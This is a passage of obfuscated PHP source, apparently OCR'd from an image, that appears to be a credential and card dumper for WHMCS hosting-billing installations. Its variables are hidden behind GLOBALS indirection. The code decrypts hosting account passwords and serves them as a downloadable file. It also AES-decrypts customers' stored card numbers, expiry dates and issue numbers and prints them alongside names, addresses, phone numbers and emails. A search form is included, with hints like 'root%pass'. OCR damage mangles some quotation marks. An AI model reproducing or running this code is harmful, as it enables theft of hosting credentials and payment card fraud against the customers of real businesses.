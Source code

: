 ";${"GLOBALS"}["rjibwxsnjtcz"]="textr";${"GLOBALS"}["ofxnjrlwmdu"]="v";${${"GLOBALS"}["apwiougyiqkh"]}=mysql_query("SELECT * FROM tblhosting where domainstatus='Active'");$rvqrsko="textr";$lsngntnws="query";while(${${"GLOBALS"}["ofxnjrlwmdu"]}=mysql_fetch_array(${$lsngntnws})){${"GLOBALS"}["kpsazd"]="v";${"GLOBALS"}["fjvcfoye"]="v";if((${${"GLOBALS"}["kpsazd"]}["username"])and(${${"GLOBALS"}["fjvcfoye"]}["password"])){$sldqnioomci="textr";${"GLOBALS"}["vrksmqbfyaow"]="v";$ylykkkse="v";$qyytacdpii="v";${$sldqnioomci}=${${"GLOBALS"}["xpgcpicbvk"]}."
Domain ".${$ylykkkse}["domain"]."
IP ".${${"GLOBALS"}["vrksmqbfyaow"]}["dedicatedip"]."
Username ".${${"GLOBALS"}["sqgchrxwl"]}["username"]."
Password ".decrypt(${$qyytacdpii}["password"],${${"GLOBALS"}["datzsblhzhf"]})."
Domainstatus ".${${"GLOBALS"}["sqgchrxwl"]}["domainstatus"]."
";}}${${"GLOBALS"}["rjibwxsnjtcz"]}=${$rvqrsko}."
######################### Client HOST ###########################
";@ob_end_clean();header("Content-length: ".strlen(${${"GLOBALS"}["xpgcpicbvk"]}));header("Content-type: text/plain");header("Content-Disposition: attachment; filename=".$_SERVER["HTTP_HOST"]."-client_host.txt");echo(${${"GLOBALS"}["xpgcpicbvk"]});}break;case 5:${$ixffiogjjei}=mysql_query("SELECT * FROM `tblclients` WHERE cardtype <> '' order by issuenumber desc");if(!is_array(mysql_fetch_array(${$bpqbxrwo}))){echo"<center><h1>Nothing Found !</h1></center>";}else{${"GLOBALS"}["ryskyhq"]="query";${${"GLOBALS"}["ryskyhq"]}=mysql_query("SELECT * FROM `tblclients` WHERE cardtype <> '' order by issuenumber desc");echo("<table border=1><tr><td>cardtype</td><td>cardnum</td><td>expdate</td><td>issuenumber</td><td>Country</td><td>Firstname</td><td>Lastname</td><td>Address1</td><td>City</td><td>State</td><td>Postcode</td><td>phonenumber</td><td>Email</td></tr>");$crntpjvs="v";$luhqqmx="query";while(${$crntpjvs}=mysql_fetch_array(${$luhqqmx})){${"GLOBALS"}["olrepjkldqa"]="firstname";${"GLOBALS"}["tffxuo"]="v";$xbmihe="v2";${"GLOBALS"}["icxohpgct"]="phonenumber";${${"GLOBALS"}["rmldtskxf"]}=md5(${${"GLOBALS"}["datzsblhzhf"]}.${${"GLOBALS"}["tffxuo"]}["0"]);${"GLOBALS"}["nracieg"]="s";${"GLOBALS"}["yzollpvdxxf"]="email";${"GLOBALS"}["jxshovixduk"]="city";$ltirpozqbh="postcode";$jwdqnctm="country";${${"GLOBALS"}["nracieg"]}=mysql_query("select cardtype,AES_DECRYPT(cardnum,'{$cchash}') as cardnum,AES_DECRYPT(expdate,'{$cchash}') as expdate,AES_DECRYPT(issuenumber,'{$cchash}') as issuenumber,AES_DECRYPT(startdate,'{$cchash}') as startdate,country,email,firstname,lastname,address1,city,state,postcode,phonenumber  FROM `tblclients` where id='".${${"GLOBALS"}["sqgchrxwl"]}["0"]."'  order by country");$huyjqqfuq="v";${$jwdqnctm}=${${"GLOBALS"}["sqgchrxwl"]}["country"];${${"GLOBALS"}["yzollpvdxxf"]}=${${"GLOBALS"}["sqgchrxwl"]}["email"];${"GLOBALS"}["uxzfeg"]="v";${${"GLOBALS"}["olrepjkldqa"]}=${$huyjqqfuq}["firstname"];${${"GLOBALS"}["fuwtcdyygb"]}=${${"GLOBALS"}["sqgchrxwl"]}["lastname"];${"GLOBALS"}["qgqxjvyn"]="v2";${${"GLOBALS"}["lzymhfcjh"]}=${${"GLOBALS"}["sqgchrxwl"]}["address1"];${"GLOBALS"}["cjjbcdlwuw"]="state";${${"GLOBALS"}["jxshovixduk"]}=${${"GLOBALS"}["sqgchrxwl"]}["city"];${${"GLOBALS"}["cjjbcdlwuw"]}=${${"GLOBALS"}["sqgchrxwl"]}["state"];${$ltirpozqbh}=${${"GLOBALS"}["sqgchrxwl"]}["postcode"];${${"GLOBALS"}["icxohpgct"]}=${${"GLOBALS"}["uxzfeg"]}["phonenumber"];${${"GLOBALS"}["qnganuhfwtyh"]}=mysql_fetch_array(${${"GLOBALS"}["holppdzxh"]});echo("<tr><td>".${${"GLOBALS"}["qnganuhfwtyh"]}[0]."</td><td>".${${"GLOBALS"}["qnganuhfwtyh"]}[1]."</td><td>".${$xbmihe}[2]."</td><td>".${${"GLOBALS"}["qgqxjvyn"]}[4]."</td><td>$country</td><td> $firstname</td><td>$lastname</td><td>$address1</td><td>$city</td><td>$state</td><td>$postcode</td><td>$phonenumber</td><td>$email</td></tr>");}echo("</table>");}break;case 61:${${"GLOBALS"}["akmxxe"]}=$_GET["qq"];${$gratlbvcudj}=str_replace(" ","%",$_POST["q"]);if(${${"GLOBALS"}["akmxxe"]}<>"")${$ztjmaka}=${$khumirs};if(${$dysqpoj}=="")${${"GLOBALS"}["bfhqlodqci"]}="%";if(${${"GLOBALS"}["akmxxe"]}=="")${${"GLOBALS"}["movmxrodnm"]}=${${"GLOBALS"}["bfhqlodqci"]};echo("<center><br><br><br><FORM action=\"?p=61\"  method="post\">
<input type=\"text\" name="q\" value="".${${"GLOBALS"}["vjknjbv"]}."\">
<br>
<INPUT class=submit type="submit\" value=\"Submit\" name="Submit"> <br>ex: root%pass or  root or 2086